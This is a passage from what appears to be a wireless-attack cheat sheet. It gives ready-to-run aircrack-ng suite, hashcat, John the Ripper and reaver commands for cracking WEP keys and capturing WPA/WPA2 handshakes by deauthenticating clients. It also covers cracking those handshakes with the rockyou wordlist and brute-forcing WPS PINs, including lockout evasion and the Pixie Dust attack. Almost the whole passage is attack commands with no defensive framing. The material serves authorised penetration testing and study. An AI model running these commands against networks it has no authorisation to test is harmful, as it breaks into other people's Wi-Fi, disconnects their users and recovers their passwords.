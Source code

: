 ### 2. WEP Cracking

```bash
# Capture traffic
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep wlan0mon

# Fake authentication
sudo aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF wlan0mon

# ARP replay attack (generate traffic)
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF wlan0mon

# Crack WEP key
sudo aircrack-ng wep-01.cap
```

### 3. WPA/WPA2 PSK Cracking

#### Capture Handshake

```bash
# Monitor and capture
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Deauthenticate client to force handshake
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# Verify handshake captured
sudo aircrack-ng capture-01.cap
```

#### Crack Handshake

```bash
# Aircrack-ng with wordlist
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap

# Hashcat (faster, GPU-accelerated)
# Convert to hashcat format
hcxpcapngtool -o hash.hc22000 capture-01.cap

# Crack with hashcat
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt

# John the Ripper
john --wordlist=rockyou.txt --format=wpapsk capture.hccap
```

### 4. WPS Attacks

#### Reaver (Brute Force)

```bash
# Scan for WPS-enabled APs
wash -i wlan0mon

# Attack WPS PIN
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv

# With delay to avoid lockout
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -d 5 -T 0.5

# Pixie Dust attack
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -K
```
